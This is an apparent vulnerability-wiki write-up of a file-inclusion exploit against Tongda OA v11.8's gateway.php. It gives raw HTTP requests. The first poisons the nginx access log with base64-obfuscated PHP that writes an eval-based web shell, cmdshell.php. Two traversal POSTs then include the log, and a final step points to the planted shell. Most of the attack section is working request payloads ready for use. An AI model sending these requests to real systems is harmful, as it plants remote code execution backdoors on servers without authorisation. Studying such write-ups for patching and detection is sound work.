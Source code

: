 # Tongda OA v11.8 getway.php remote file contains vulnerability

## Vulnerability Description

Tongda OA v11.8 getway.php has a file containing vulnerability. The attacker caused arbitrary file writing vulnerability by sending a malicious request to include log files.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">Tongda OA v11.8</span>

## Network surveying and mapping



## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628303888717-4ffc91a6-e87e-4e00-8bd5-b2218bb0772a-20220313173009245.png)

Send a malicious request to make the log be logged

```php
GET /d1a4278d?json={}&aa=<?php @fputs(fopen(base64_decode('Y21kc2hlbGwucGhw'),w),base64_decode('PD9waHAgQGV2YWwoJF9QT1NUWydjbWRzaGVsbCddKTs/Pg=='));?> HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Accept-Encoding: gzip
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628304243872-a7ae1965-2e21-4551-9d92-b42a3468617b.png)

Include log files through vulnerability

```php
POST /ispirit/interface/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628304347438-754f2570-1b25-4e9e-b822-ec78c2ca944a.png)

Send a malicious request to write to the file again

```php
POST /mac/gateway.php HTTP/1.1
Host: 
User-Agent: Go-http-client/1.1
Content-Length: 54
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip

json={"url":"/general/../../nginx/logs/oa.access.log"}
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628304579748-4614da68-4756-43a6-b7c1-dc6e9e034819.png)

Access the written file `/mac/cmdshell.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1628304836865-aee81900-a2a1-402c-9915-77a3d908e480.png)